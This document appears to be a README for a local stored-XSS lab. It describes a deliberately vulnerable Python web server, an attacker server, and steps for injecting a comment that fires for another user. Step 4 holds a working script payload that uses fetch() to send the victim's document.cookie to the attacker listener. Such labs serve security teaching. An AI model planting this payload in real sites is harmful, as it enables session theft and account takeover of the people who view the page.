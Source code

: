 # Stored-XSS Server
1) To run server:
setup new venv or install directly in python folder
```cmd
(optional) .venv\Scripts\activate
pip install -r requirements.txt
python server.py
python attacker_server.py
```
2) Open http://127.0.0.1 or http://localhost
3) Register 2 new users (e.g. Alice and Bob)
4) Login as Alice, leave a comment (script below):
```html
<script>
	alert("your cookies has been stolen");
	fetch("http://127.0.0.1:9000/steal?cookie=" + document.cookie);
</script>
```
5) Logout form Alice and login as Bob.
6) See the result in Terminal.